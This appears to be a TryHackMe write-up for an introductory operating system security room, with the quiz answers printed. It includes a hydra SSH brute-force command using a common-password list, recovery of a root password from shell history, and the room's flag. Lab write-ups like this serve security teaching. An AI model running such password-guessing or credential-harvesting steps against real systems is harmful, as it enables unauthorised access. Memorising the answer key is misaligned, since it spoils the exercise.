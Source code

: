 ```yaml
---
description: https://tryhackme.com/room/operatingsystemsecurity
---
```


# Operating System Security

## Task 1 Introduction to Operating System Security

#### Which of the following is **not** an operating system?

* AIX
* Android
* Chrome OS
* Solaris
* Thunderbird

{% hint style="success" %}
`Thunderbird`
{% endhint %}

## Task 2 Common Examples of OS Security

1. Authentication and Weak Passwords
2. Weak File Permissions
3. Malicious Program

#### Which of the following is a strong password, in your opinion?

* iloveyou
* 1q2w3e4r5t
* LearnM00r
* qwertyuiop

{% hint style="success" %}
`LearnM00r`
{% endhint %}

## Task 3 Practical Example of OS Security

#### Based on the top 7 passwords, let’s try to find Johnny’s password. What is the password for the user `johnny`?

```bash
echo 'johnny\nlinda' > user.txt
echo '123456\n123456789\nqwerty\npassword\n111111\n12345678\nabc123' > pass.txt
hydra -L user.txt -P pass.txt ssh://10.10.187.109
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 06-52-03.png>)

{% hint style="success" %}
`abc123`
{% endhint %}

#### Once you are logged in as Johnny, use the command `history` to check the commands that Johnny has typed. We expect Johnny to have mistakenly typed the `root` password instead of a command. What is the root password?

```bash
ssh johnny@10.10.187.109
history
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 06-53-38.png>)

{% hint style="success" %}
`happyHack!NG`
{% endhint %}

#### While logged in as Johnny, use the command `su - root` to switch to the `root` account. Display the contents of the file `flag.txt` in the `root` directory. What is the content of the file?

```bash
su -
cat flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 06-54-16.png>)

{% hint style="success" %}
`THM{YouGotRoot}`
{% endhint %}
